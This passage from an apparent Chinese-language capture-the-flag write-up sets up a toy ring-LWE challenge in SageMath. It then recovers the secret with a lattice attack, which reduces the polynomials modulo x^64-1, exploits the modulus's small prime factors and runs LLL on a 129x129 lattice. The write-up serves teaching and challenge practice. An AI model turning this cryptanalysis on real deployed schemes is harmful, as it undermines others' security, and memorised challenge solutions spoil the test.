    assert data[i] == sk[i] 

q = 1219077173
R.<x> = PolynomialRing(Zmod(q), 'x')
N = 1024

f = x^N - 1

a = [0] * N
for i in range(N):
    a[i] = randint(0, q)

s = sk

e = [0] * N
for i in range(N):
    val = np.random.normal(loc=0.0, scale=2.1, size=None)
    e[i] = int(val)

a = R(a)
s = R(s)
e = R(e)
b = (a*s + e)%f

print(a)
print(b)
print(q)
```

有以下几个点需要注意：

①N = 1024，格规模太大，规不出，所以需要把一个格子分成几次规

②q = 179 * 181 * 191 * 197

③s 多项式度为 64 以下，说明按 d3bdd 对多项式的 factor 方法可以卡在 128 甚至 64 的大小去打出来

那接下来就是格规的过程了。在 2^64 上得到 a 和 b，然后构造以下格子


```python
import numpy as np

q = 1219077173
print(factor(q))
R.<x> = PolynomialRing(Zmod(q))
N = 1024

a = 
b = 
a = R(a)%(x^64-1)
b = R(b)%(x^64-1)

a = list(a)
b = list(b)

delta1 = 1
delta2 = 1

m = matrix(129,129)
for i in range(64):
    m[i,i] = delta1
    for j in range(64):
        m[i,65+j] = a[(j-i)%64]
    m[64,65+i] = b[i]
    m[65+i,65+i] = q
m[64,64] = delta2

ans = m.LLL()[0]
p = ''
for i in ans:
    if i > 10:
        p += chr(i)
print(p)
```
